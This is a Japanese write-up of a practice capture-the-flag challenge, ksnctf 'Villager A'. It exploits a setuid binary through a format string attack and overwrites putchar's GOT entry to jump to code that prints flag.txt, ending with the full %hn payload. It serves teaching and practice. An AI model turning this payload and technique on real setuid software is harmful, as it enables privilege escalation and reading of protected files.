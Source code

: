 ## [4. Villager A](http://ksnctf.sweetduet.info/problem/4)

指定されたサーバにSSHで入る。
ホームディレクトリにあるファイルは次の通り。

```console
[q4@localhost ~]$ ls -l
total 16
-r--------. 3 q4a  q4a    22 May 22  2012 flag.txt
-rwsr-xr-x. 1 q4a  q4a  5857 May 22  2012 q4
-rw-r--r--. 1 root root  151 Jun  1  2012 readme.txt
```

おそらく `flag.txt` にflagが書いてあると思われるが、アクセス権がない。
`q4` を実行してその中身を読むのだろう。

とりあえず `q4` を実行すると、名前を聞かれ、その後 "no" を入力するまで無限ループする。

```console
[q4@localhost ~]$ ./q4
What's your name?
ordovicia
Hi, ordovicia

Do you want the flag?
yes
Do you want the flag?
yes
Do you want the flag?
no
I see. Good bye.
```

おそらく [format string attack](https://ja.wikipedia.org/wiki/%E6%9B%B8%E5%BC%8F%E6%96%87%E5%AD%97%E5%88%97%E6%94%BB%E6%92%83) を使うのだろう。
そこで攻撃してみると、

```console
[q4@localhost ~]$ echo -e "AAAA, %x, %x, %x, %x, %x, %x, %x" | ./q4
What's your name?
Hi, AAAA, 400, 3a78c0, 8, 14, 806fc4, 41414141, 7825202c

Do you want the flag?
```

となり、スタックの6番目の領域に、入力した値 (`AAAA` = `0x41, 0x41, 0x41, 0x41`) が格納されていることが分かる。

何を入力すれば攻撃が成功するのか考えるため、逆アセンブルして解析を進める。
[逆アセンブルの結果](https://github.com/ordovicia/ksnctf/blob/master/4_Villager_A/dis.asm) から抜粋すると、次のように動作していそうだと想像できる。

```
...
08048474 <putchar@plt>:
 8048474:	ff 25 e0 99 04 08    	jmp    DWORD PTR ds:0x80499e0
 804847a:	68 08 00 00 00       	push   0x8
 804847f:	e9 d0 ff ff ff       	jmp    8048454 <.plt>
...

080485b4 <main>:
 ...

 // 1. 最初の出力. "What's your name?"
 80485c7:	e8 f8 fe ff ff       	call   80484c4 <puts@plt>
 ...

 // 2. 最初の入力
 80485e4:	e8 9b fe ff ff       	call   8048484 <fgets@plt>

 // 3. "Hi, " を出力
 80485e9:	c7 04 24 b6 87 04 08 	mov    DWORD PTR [esp],0x80487b6
 80485f0:	e8 bf fe ff ff       	call   80484b4 <printf@plt>

 // 4. 2で入力した値を出力
 80485f5:	8d 44 24 18          	lea    eax,[esp+0x18]
 80485f9:	89 04 24             	mov    DWORD PTR [esp],eax
 80485fc:	e8 b3 fe ff ff       	call   80484b4 <printf@plt>

 // 5. '\n' を出力
 8048601:	c7 04 24 0a 00 00 00 	mov    DWORD PTR [esp],0xa
 8048608:	e8 67 fe ff ff       	call   8048474 <putchar@plt>

 // 6. "no" を入力するまで無限ループ
 804860d:	c7 84 24 18 04 00 00 	mov    DWORD PTR [esp+0x418],0x1
 ...
 804868f:	75 89                	jne    804861a <main+0x66>

 // 7. "flag.txt" ファイルを読んで出力
 8048691:	c7 44 24 04 e6 87 04 	mov    DWORD PTR [esp+0x4],0x80487e6
 8048698:	08
 8048699:	c7 04 24 e8 87 04 08 	mov    DWORD PTR [esp],0x80487e8
 80486a0:	e8 ff fd ff ff       	call   80484a4 <fopen@plt>
 80486a5:	89 84 24 1c 04 00 00 	mov    DWORD PTR [esp+0x41c],eax
 80486ac:	8b 84 24 1c 04 00 00 	mov    eax,DWORD PTR [esp+0x41c]
 80486b3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80486b7:	c7 44 24 04 00 04 00 	mov    DWORD PTR [esp+0x4],0x400
 80486be:	00
 80486bf:	8d 44 24 18          	lea    eax,[esp+0x18]
 80486c3:	89 04 24             	mov    DWORD PTR [esp],eax
 80486c6:	e8 b9 fd ff ff       	call   8048484 <fgets@plt>
 80486cb:	8d 44 24 18          	lea    eax,[esp+0x18]
 80486cf:	89 04 24             	mov    DWORD PTR [esp],eax
 80486d2:	e8 dd fd ff ff       	call   80484b4 <printf@plt>
 ...
```

7に飛べればflagが得られるが、このままではたどり着けない。
そこでGOT overwriteにより7に飛ぶことを考える。
つまり、

* 2で format string attack をおこなうことにより、
* `putchar()` のGOTが参照している `0x80499e0` の参照先を `0x8048691` に書き換え、
* 5の `putchar()` 呼び出しで7に飛ぶ。

Format string attack でのメモリ書き込みは `%n` 系のフォーマット指定子を使う。
これは引数をアドレスとして解釈し、「printfが出力しているバイト数」をそのアドレスに書き込む。
`%n` は4バイト、`%hn` は2バイト、`%hhn` は1バイト書き込む。
書き込みたい値が大きいとき、`%n` を使うと「出力しているバイト数」を満たすために大量に書き込みが必要になることがあるので、
`%hn`, `%hhn` を使い2バイト、1バイトごとに分けて書き込むことがある。
今回は、エンディアンも考慮して、

* `0x80499e0` に下位2バイト `0x86`, `0x91`
* `0x80499e2` に上位2バイト `0x08`, `0x04`

を書き込む。
「出力しているバイト数」を合わせるため、それぞれの書き込みの前に `0x8691 - 8 = 34441`, `0x0804 - 34441 - 8 = 33139` バイト出力する。
また、`q4` に入力した値はスタックの6番目に格納されることが分かっている。
つまり、

```
\xe0\x99\x04\x08
\xe2\x99\x04\x08
%34441x
%6$hn
%33139x
%7$hn
```

をつなげて入力すればよい。

```console
$ echo -e '\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6$hn%33139x%7$hn' | ./q4
```

